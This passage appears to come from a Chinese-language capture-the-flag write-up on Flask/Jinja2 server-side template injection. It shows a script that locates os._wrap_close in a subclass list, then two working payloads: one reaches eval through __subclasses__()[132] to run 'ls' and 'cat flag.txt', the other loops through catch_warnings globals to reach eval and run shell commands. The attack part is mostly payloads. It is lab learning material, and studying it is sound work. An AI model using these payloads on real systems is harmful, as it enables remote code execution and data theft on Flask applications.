 ```python
r'>, <class 'difflib.HtmlDiff'>, <class 'werkzeug.routing.RuleFactory'>, <class 'werkzeug.routing.RuleTemplate'>, <class 'werkzeug.routing.BaseConverter'>, <class 'werkzeug.routing.Map'>, <class 'werkzeug.routing.MapAdapter'>, <class 'flask.signals.Namespace'>, <class 'flask.signals._FakeSignal'>, <class 'flask.helpers.locked_cached_property'>, <class 'flask.helpers._PackageBoundObject'>, <class 'flask.cli.DispatchingApp'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.config.ConfigAttribute'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'werkzeug.wrappers.json._JSONModule'>, <class 'werkzeug.wrappers.json.JSONMixin'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'jinja2.ext.Extension'>, <class 'jinja2.ext._CommentFinder'>]
'''
# 以分号分割字符串
flashStr = flashStr.split(',')

# 查找位置
for x in range(len(flashStr)):
    if '_wrap_close' in flashStr[x]:
        print('第', x, '位是：', flashStr[x])
```

### 1、解法一

**利用`_wrap_close`**

```py
第 132 位是：  <class 'os._wrap_close'>
```

**payload为：**

```nginx
?name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303201457053.png)

拿flag

```nginx
?name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat flag.txt").read()')}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303201458097.png)

### 2、解法二

**利用`warnings.catch_warnings`**

**payload**

```nginx
{% for c in [].__class__.__base__.__subclasses__() %} 
  {% if c.__name__ == 'catch_warnings' %} 
    {% for b in c.__init__.__globals__.values() %} 
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %} 
          {{ b['eval']('__import__("os").popen("ls").read()') }}
        {% endif %} 
      {% endif %} 
     {% endfor %} 
  {% endif %}
{% endfor %}
```
